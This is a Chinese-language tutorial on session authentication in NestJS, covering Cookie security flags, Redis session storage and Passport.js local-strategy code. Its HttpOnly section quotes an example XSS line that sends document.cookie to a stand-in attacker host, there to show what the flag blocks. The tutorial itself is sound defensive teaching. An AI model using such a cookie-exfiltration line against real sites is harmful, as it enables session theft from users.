







# Session 核心机制

## 本篇导读

### 核心目标

学完本篇后，你将能够：

- 深入理解 Session 认证的完整工作原理——从用户登录到每次请求的身份验证
- 掌握 Cookie 的所有安全属性，以及它们的防御目标
- 理解为什么生产环境必须将 Session 存储在 Redis 中，并掌握 `connect-redis` 的配置方法
- 使用 Passport.js 的 Local 策略，在 NestJS 中实现完整的用户名密码认证流程
- 理解 `serializeUser` 和 `deserializeUser` 的作用，以及它们如何与 Session 协同工作

### 重点与难点

**重点**：

- Session 与 Cookie 的关系——Session ID 存在 Cookie 里，Session 数据存在服务器里
- Cookie 的 `HttpOnly`、`Secure`、`SameSite` 三个安全属性的防御目标
- Passport.js 的认证流程——策略（Strategy）、`serializeUser`、`deserializeUser` 的调用时机

**难点**：

- Session 存储后端的选型与 `connect-redis` 的配置细节
- `SameSite=Strict` vs `SameSite=Lax` 的行为差异，以及在跨域场景下的影响
- Passport.js 在 NestJS 中的集成方式——Guard、Strategy、Session 的协作关系

## 登录认证到底发生了什么？

在开始写代码之前，先彻底搞清楚 Session 认证的全貌。这个问题看起来简单，但里面有很多值得深究的细节。

假设你打开一个网站，输入邮箱和密码，点击登录，然后跳转到了首页——在这短短几秒内，服务器做了什么？

### 登录的完整流程



这个流程揭示了 Session 认证的三个核心组件：

1. **Session 数据**：存储在服务器（Redis）上的键值对，记录"当前会话属于谁"
2. **Session ID**：一串随机字符串，是找到 Session 数据的"钥匙"
3. **Cookie**：存储在浏览器中，每次请求自动携带 Session ID

三者的关系用一个类比来理解：Session 是银行的保险柜，Session ID 是保险柜的编号，Cookie 是你随身携带的存有编号的小纸条。每次你去银行，小纸条帮工作人员找到你对应的保险柜。

### 为什么不直接把用户信息存在 Cookie 里？

初学者经常会有这个疑问：既然 Session ID 存在 Cookie 里，为什么不直接把用户信息（`userId`、`email`）存在 Cookie 里，省掉一次 Redis 查询？

这有两个根本性的原因：

**安全性**

Cookie 的内容对用户是可见的，虽然加密后不可读，但用户可以任意修改 Cookie 的值后发给服务器。如果你把 `{ userId: 1, isAdmin: false }` 加密存在 Cookie 里，你需要在服务器上维护一个加密密钥，一旦密钥泄露，攻击者可以伪造任意用户身份。Session 机制中，Cookie 只存一串随机 ID，没有 Redis 中的 Session 数据，这串 ID 毫无意义。攻击者就算猜出了一个随机 ID，也得保证这个 ID 恰好在 Redis 中存在（概率极低）。

**可控性**

Session 存储在服务器上，意味着服务器可以随时主动终止某个 Session——用户注销、Token 吊销、用户账号被封禁时，服务器可以直接从 Redis 里删除 Session，下次请求时该用户立刻失去认证状态。如果用户信息直接在 Cookie 中，且 Cookie 还没过期，你无法从服务器侧主动让该数据失效。

## 核心概念讲解

### Cookie 的安全属性详解

Cookie 是 Session 认证的载体，其安全属性的配置直接决定了整个认证系统的安全性。每个属性都有明确的防御目标，需要逐一理解。

#### HttpOnly：阻止 JavaScript 读取

```
Set-Cookie: sessionId=abc123; HttpOnly
```

**防御目标**：XSS（跨站脚本攻击）

当 Cookie 标记为 `HttpOnly` 后，浏览器拒绝任何 JavaScript 代码读取这个 Cookie，包括 `document.cookie`、`fetch` 中的手动 Cookie 头等。

这意味着：即使你的网站存在 XSS 漏洞，攻击者注入的恶意脚本也无法窃取 Session Cookie：

```javascript
// 攻击者注入的代码
document.cookie; // 返回的结果中不包含 HttpOnly 的 Cookie
fetch('https://attacker.com/steal?cookie=' + document.cookie); // Session ID 不会被发送
```

**必须开启**：Session Cookie 必须标记为 `HttpOnly`，这是不可妥协的安全底线。

**代价**：你自己的 JavaScript 代码也无法读取这个 Cookie。但 Session Cookie 从来就不需要被 JavaScript 读取——它只需要在请求时自动携带给服务器，浏览器会自动处理这个过程。

#### Secure：只通过 HTTPS 发送

```
Set-Cookie: sessionId=abc123; Secure
```

**防御目标**：中间人攻击（Man-in-the-Middle Attack）

标记为 `Secure` 的 Cookie 只会在 HTTPS 连接下被浏览器发送，在 HTTP 连接下会被静默丢弃。

如果你的网站没有 HTTPS，用户的 Session Cookie 在网络传输过程中是明文的，任何能监听网络流量的人（比如同一 WiFi 网络下的其他用户）都可以截获 Session ID，然后冒充用户发送请求。这被称为 **Session Hijacking（会话劫持）**。

**生产环境必须开启**：在本地开发时，浏览器对 `localhost` 有特殊处理，即使没有 HTTPS 也可以发送带 `Secure` 标记的 Cookie。在生产环境，务必同时开启 `Secure` 和 HTTPS。

#### SameSite：防御 CSRF 攻击

`SameSite` 属性控制 Cookie 在跨站请求时是否被发送，有三个可选值：

**`SameSite=Strict`**

Cookie 只在当前站点的请求中发送，完全不跟随跨站请求。



这是最严格的防护，但有一个用户体验问题：当用户从外部链接（比如搜索结果、邮件中的链接）点击进入你的网站时，首次请求不会携带 Cookie，用户会发现自己处于未登录状态，需要再次登录。

**`SameSite=Lax`**（现代浏览器的默认值）

Cookie 在跨站的"顶级导航" GET 请求中会被发送，但在跨站的 POST 请求、AJAX 请求、iframe 中不会被送。



`Lax` 在安全性和用户体验之间取得了平衡：从邮件/搜索结果点击链接跳转到你的网站时，Cookie 会正常携带（用户保持登录态），而 CSRF 攻击通常使用跨站 POST 请求，`Lax` 可以防御这类攻击。

**`SameSite=None`**

Cookie 在所有跨站请求中都会被发送，必须同时设置 `Secure`：

```
Set-Cookie: sessionId=abc123; SameSite=None; Secure
```

适用于需要在跨站嵌入（iframe）或跨域 AJAX 场景下共享 Cookie 的情况，但需要另外实现 CSRF 防护（如 CSRF Token）。

**本教程的选择**：

- 前后端同域（如 `app.com` 的前端调 `app.com/api` 的接口）：使用 `SameSite=Lax`
- 前后端跨域（如 `app.com` 的前端调 `api.app.com` 的接口）：使用 `SameSite=None; Secure`，并配合 CSRF Token

#### Domain 与 Path

```
Set-Cookie: sessionId=abc123; Domain=.app.com; Path=/
```

**`Domain`**：控制哪些子域名可以接收这个 Cookie。

- `Domain=app.com`：浏览器会将 Cookie 发送给 `app.com` 及所有子域名（如 `api.app.com`、`auth.app.com`）
- 设置 `Domain=app.com` 后，前端（`app.com`）和 API 服务（`api.app.com`）都可以接收同一个 Session Cookie

> 注意：早期浏览器规范要求用前导点（`.app.com`）来包含子域名，但现代浏览器（Chrome、Firefox、Safari 等）已忽略前导点，`Domain=app.com` 即可正常工作。

**`Path`**：控制哪些路径下的请求会携带这个 Cookie。

- `Path=/`：所有路径都携带
- `Path=/api`：只有 `/api` 路径下的请求才携带

通常保持 `Path=/` 即可。

#### Max-Age 与 Expires

```
Set-Cookie: sessionId=abc123; Max-Age=86400
```

**`Max-Age`**：Cookie 的存活时间（秒）。

- `Max-Age=0` 或负数：立即删除 Cookie（用于注销登录）
- `Max-Age=86400`：24 小时
- 不设置：浏览器会话 Cookie，关闭浏览器后 Cookie 消失

**`Expires`**：Cookie 的过期时间（绝对时间），与 `Max-Age` 功能相同，现代开发中优先使用 `Max-Age`（更直观）。

**记住我（Remember Me）功能的实现原理**：

当用户勾选"记住我"时，设置一个长期有效的 Cookie（如 30 天）；不勾选时，不设置 `Max-Age`，Cookie 在浏览器关闭后消失。这两种行为通过 `Max-Age` 控制，后端 Session 的过期时间也应该随之调整。

#### 完整的安全 Cookie 配置示例

```plaintext
Set-Cookie: sessionId=abc123xyz;
            HttpOnly;
            Secure;
            SameSite=Lax;
            Path=/;
            Domain=.app.com;
            Max-Age=86400
```

### Session 存储的演进

#### 阶段一：内存存储（默认行为）

`express-session` 默认使用内存（MemoryStore）存储 Session，这在开发时很方便，但生产环境存在严重问题：



任何一个问题在生产环境中都是不可接受的。

#### 阶段二：Redis 存储

Redis 是存储 Session（会话数据）的理想选择：

- **速度**：Redis 是内存数据库，读写延迟通常在 1ms 以下，不会成为认证流程的瓶颈
- **持久化**：Redis 支持 RDB 和 AOF 持久化，重启后 Session 不会丢失
- **共享**：多个 Node.js 实例连接同一个 Redis，Session 数据共享，水平扩展没有障碍
- **过期控制**：Redis 的 TTL（Time To Live）机制天然适合 Session 过期管理，不需要手动清理过期 Session
- **原子操作**：Redis 的单线程模型保证了操作的原子性，不存在并发写入冲突



#### Redis Session 的数据结构

在 Redis 中，每个 Session 是一个 String 类型的键值对：

```plaintext
键：sess:{sessionId}
值：JSON 字符串，如 {"cookie":{"httpOnly":true,"secure":true,"maxAge":86400000},"userId":"uuid-xxx","passport":{"user":"uuid-xxx"}}
TTL：Session 过期时间（秒）
```

使用 `redis-cli` 可以直接查看 Session 内容：

```plaintext
> KEYS sess:*
1) "sess:abc123xyz..."

> GET sess:abc123xyz...
"{\"cookie\":{\"httpOnly\":true,\"secure\":true,\"maxAge\":86400000},\"userId\":\"uuid-xxx\"}"

> TTL sess:abc123xyz...
83421
```

### 安装与配置

#### 安装依赖

```plaintext
pnpm add express-session connect-redis redis @nestjs/passport passport passport-local
pnpm add -D @types/express-session @types/passport @types/passport-local
```

各依赖说明：

- `express-session`：Session 中间件，负责 Session 的创建、读取和销毁
- `connect-redis`：`express-session` 的 Redis 存储适配器
- `redis`：Redis Node.js 客户端（官方的 `node-redis`，v4+）
- `@nestjs/passport`：NestJS 对 Passport.js 的封装模块
- `passport`：认证中间件框架
- `passport-local`：Passport 的本地策略（用户名密码认证）

#### Redis 客户端配置

```typescript
// src/redis/redis.provider.ts
import { createClient } from 'redis';

export const REDIS_CLIENT = 'REDIS_CLIENT';

export const redisProviders = [
  {
    provide: REDIS_CLIENT,
    useFactory: async () => {
      const client = createClient({
        url: process.env.REDIS_URL, // redis://localhost:6379
        socket: {
          reconnectStrategy: (retries) => {
            // 指数退避重连，最多等待 30 秒
            return Math.min(retries * 100, 30000);
          },
        },
      });

      client.on('error', (err) => {
        console.error('Redis Client Error:', err);
      });

      client.on('connect', () => {
        console.log('Redis connected');
      });

      await client.connect();
      return client;
    },
  },
];
```

```typescript
// src/redis/redis.module.ts
import { Module, Global } from '@nestjs/common';
import { redisProviders, REDIS_CLIENT } from './redis.provider';

@Global()
@Module({
  providers: redisProviders,
  exports: [REDIS_CLIENT],
})
export class RedisModule {}
```

#### express-session + connect-redis 配置

```typescript
// src/main.ts
import { NestFactory } from '@nestjs/core';
import { AppModule } from './app.module';
import * as session from 'express-session';
import { RedisStore } from 'connect-redis';
import { createClient } from 'redis';
import * as passport from 'passport';

async function bootstrap() {
  const app = await NestFactory.create(AppModule);

  // 初始化 Redis 客户端（供 Session Store 使用）
  const redisClient = createClient({ url: process.env.REDIS_URL });
  await redisClient.connect();

  // 配置 Session 中间件
  app.use(
    session({
      store: new RedisStore({
        client: redisClient,
        prefix: 'sess:', // Redis key 前缀
      }),
      secret: process.env.SESSION_SECRET!, // 用于签名 Session ID Cookie
      resave: false, // 不强制重新保存未修改的 Session
      saveUninitialized: false, // 不保存空 Session（未登录的请求不创建 Session）
      cookie: {
        httpOnly: true, // 阻止 JavaScript 读取
        secure: process.env.NODE_ENV === 'production', // 生产环境要求 HTTPS
        sameSite: 'lax', // CSRF 防护
        maxAge: 24 * 60 * 60 * 1000, // 24 小时（毫秒）
      },
      name: 'sessionId', // Cookie 的名称（默认是 connect.sid，建议修改以减少指纹信息）
    })
  );

  // 初始化 Passport（必须在 session 中间件之后）
  app.use(passport.initialize());
  app.use(passport.session());

  await app.listen(3000);
}

bootstrap();
```

**关键配置项解析**：

**`secret`**：用于签名 Session ID Cookie。Cookie 中实际存储的值是 `sessionId.signature` 格式，服务器接收时验证签名以防止 Cookie 被篡改。必须使用强随机字符串，生产环境应从环境变量读取。

**`resave: false`**：Session 只在被修改时才保存到存储后端。设为 `false` 可以避免不必要的 Redis 写入，提高性能。

**`saveUninitialized: false`**：对于未初始化的 Session（即没有存储任何数据的请求），不将其保存到 Redis。这可以避免未登录用户的每次请求都在 Redis 中创建一条空记录，减少 Redis 存储压力，同时也符合 GDPR 等隐私法规的要求（不必要的数据不存储）。

**`name: 'sessionId'`**：默认的 Cookie 名称 `connect.sid` 会暴露你使用了 `express-session`，给攻击者提供技术栈信息。改为不透露技术信息的名称是一个简单但有价值的安全加固措施。

### Passport.js：认证策略框架

#### Passport.js 的设计哲学

Passport.js 是 Node.js 生态中最流行的认证中间件，它的核心思想是：**将"验证用户身份"的逻辑（策略）与"处理认证结果"的框架（Passport 核心）分离**。

Passport 本身不知道如何验证用户——它只知道如何协调认证流程。具体的验证逻辑由可插拔的"策略（Strategy）"提供：

- `passport-local`：用用户名和密码验证
- `passport-jwt`：用 JWT Token 验证
- `passport-google-oauth20`：用 Google OAuth2 验证
- ...数百个开源策略

这种设计让你可以为同一个应用配置多种认证方式，切换/添加认证方式时只需要换策略，不需要改核心逻辑。

#### Passport 在 Session 认证中的完整流程

Passport 的 `serializeUser` 和 `deserializeUser` 是最容易让初学者困惑的部分，用一个流程图来彻底说明：



**`serializeUser`**：登录成功后调用，决定 **将什么存入 Session**。

通常只存 `userId`，而不是整个用户对象，原因：

- Session 存储空间有限，存整个用户对象浪费空间
- 用户信息可能变化（如改了邮箱），如果存缓存的用户对象，会产生不一致

```typescript
passport.serializeUser((user: any, done) => {
  done(null, user.id); // 只存用户 ID
});
```

**`deserializeUser`**：每个需要认证的请求都会调用，决定 **如何根据存储的值恢复用户对象**，并附到 `req.user` 上。

```typescript
passport.deserializeUser(async (id: string, done) => {
  try {
    const user = await usersService.findById(id);
    done(null, user); // req.user = user
  } catch (error) {
    done(error);
  }
});
```

**注意**：`deserializeUser` 在每个认证请求中都会执行一次数据库查询，这是 Session 认证的固有成本。你可以在应用层缓存用户对象来优化性能（下一小节会介绍），但需要注意缓存一致性问题。

#### 在 NestJS 中实现 Local Strategy

```typescript
// src/auth/strategies/local.strategy.ts
import { Injectable, UnauthorizedException } from '@nestjs/common';
import { PassportStrategy } from '@nestjs/passport';
import { Strategy } from 'passport-local';
import { AuthService } from '../auth.service';

@Injectable()
export class LocalStrategy extends PassportStrategy(Strategy) {
  constructor(private authService: AuthService) {
    super({
      usernameField: 'email', // 告诉 passport-local 使用 email 字段而不是默认的 username
      passwordField: 'password',
    });
  }

  // passport-local 会从请求体中提取 email 和 password，然后调用 validate
  async validate(email: string, password: string) {
    const user = await this.authService.validateUser(email, password);
    if (!user) {
      throw new UnauthorizedException('邮箱或密码不正确');
    }
    return user; // 返回值会被 Passport 传给 serializeUser
  }
}
```

#### AuthService：密码验证逻辑

```typescript
// src/auth/auth.service.ts
import { Injectable } from '@nestjs/common';
import { UsersRepository } from '../users/users.repository';
import * as argon2 from 'argon2';

@Injectable()
export class AuthService {
  constructor(private readonly usersRepository: UsersRepository) {}

  // 验证用户身份（用于 LocalStrategy）
  async validateUser(email: string, password: string) {
    // 使用专门的含密码的查询方法
    const user = await this.usersRepository.findByEmailWithPassword(email);

    if (!user) {
      // 用户不存在：执行一次虚拟的哈希验证，防止时序攻击
      // （如果用户不存在时直接返回，攻击者可以通过响应时间差判断邮箱是否注册）
      await argon2.hash('dummy-password-to-prevent-timing-attack');
      return null;
    }

    if (!user.isActive || !user.isVerified) {
      return null;
    }

    const isPasswordValid = await argon2.verify(user.passwordHash, password);
    if (!isPasswordValid) {
      return null;
    }

    // 移除 passwordHash，返回安全的用户对象
    const { passwordHash, deletedAt, ...safeUser } = user;
    return safeUser;
  }
}
```

**时序攻击防御**：当用户不存在时，直接 `return null` 会比走完密码验证流程快很多毫秒（因为省去了 Argon2 的哈希验证）。攻击者可以通过统计大量请求的响应时间，判断哪些邮箱是注册用户（注册用户的请求因为要执行哈希验证而更慢）。执行一次虚拟哈希（`argon2.hash('dummy...')`）让两种情况的响应时间趋于一致，从根本上消除这个信息泄露渠道。

#### Local Auth Guard

Guard 是 NestJS 中用于控制请求是否可以进入路由处理函数的守卫。对于 Local 策略，我们需要一个触发 Passport Local 认证的 Guard：

```typescript
// src/auth/guards/local-auth.guard.ts
import { Injectable, ExecutionContext } from '@nestjs/common';
import { AuthGuard } from '@nestjs/passport';

@Injectable()
export class LocalAuthGuard extends AuthGuard('local') {
  // 重写 canActivate，在调用 super 之前处理一些 NestJS 特有的逻辑
  async canActivate(context: ExecutionContext): Promise<boolean> {
    const result = (await super.canActivate(context)) as boolean;
    const request = context.switchToHttp().getRequest();
    // 触发 Passport Session 序列化（将用户 ID 存入 Session）
    await super.logIn(request);
    return result;
  }
}
```

**为什么需要 `super.logIn(request)`？**

`super.canActivate` 会执行 `local` 策略的 `validate` 方法，将认证结果挂到 `req.user` 上，但不会调用 `req.logIn()`（Passport 的 Session 序列化方法）。我们需要显式调用 `super.logIn(request)`，触发 `serializeUser`，将用户信息存入 Session。

#### Session Auth Guard

对于需要验证"用户是否已登录"的路由，需要检查 `req.isAuthenticated()`（由 Passport 在执行 `deserializeUser` 后设置）：

```typescript
// src/auth/guards/session-auth.guard.ts
import {
  Injectable,
  CanActivate,
  ExecutionContext,
  UnauthorizedException,
} from '@nestjs/common';

@Injectable()
export class SessionAuthGuard implements CanActivate {
  canActivate(context: ExecutionContext): boolean {
    const request = context.switchToHttp().getRequest();
    if (!request.isAuthenticated()) {
      throw new UnauthorizedException('请先登录');
    }
    return true;
  }
}
```

#### 完整的 AuthModule 配置

```typescript
// src/auth/auth.module.ts
import { Module } from '@nestjs/common';
import { PassportModule } from '@nestjs/passport';
import { AuthController } from './auth.controller';
import { AuthService } from './auth.service';
import { LocalStrategy } from './strategies/local.strategy';
import { SessionSerializer } from './session.serializer';
import { UsersModule } from '../users/users.module';

@Module({
  imports: [
    PassportModule.register({ session: true }), // 开启 Session 支持
    UsersModule,
  ],
  controllers: [AuthController],
  providers: [AuthService, LocalStrategy, SessionSerializer],
})
export class AuthModule {}
```

#### SessionSerializer：serializeUser 和 deserializeUser 的 NestJS 封装

在 NestJS 中，`serializeUser` 和 `deserializeUser` 应该封装在 Passport `Session` Serializer 中，以便利用 NestJS 的依赖注入系统：

```typescript
// src/auth/session.serializer.ts
import { Injectable } from '@nestjs/common';
import { PassportSerializer } from '@nestjs/passport';
import { UsersRepository, PublicUser } from '../users/users.repository';

@Injectable()
export class SessionSerializer extends PassportSerializer {
  constructor(private readonly usersRepository: UsersRepository) {
    super();
  }

  // 登录成功后：将什么存入 Session
  serializeUser(user: PublicUser, done: (err: any, id: string) => void) {
    done(null, user.id);
  }

  // 每次认证请求：根据 Session 中的值恢复用户对象
  async deserializeUser(
    id: string,
    done: (err: any, user: PublicUser | null) => void
  ) {
    try {
      const user = await this.usersRepository.findById(id);
      done(null, user); // user 为 null 时，Passport 会清除 Session
    } catch (error) {
      done(error, null);
    }
  }
}
```

### Session 的完整生命周期

通过一个综合视图，来理解从 Session 创建到销毁的完整过程：



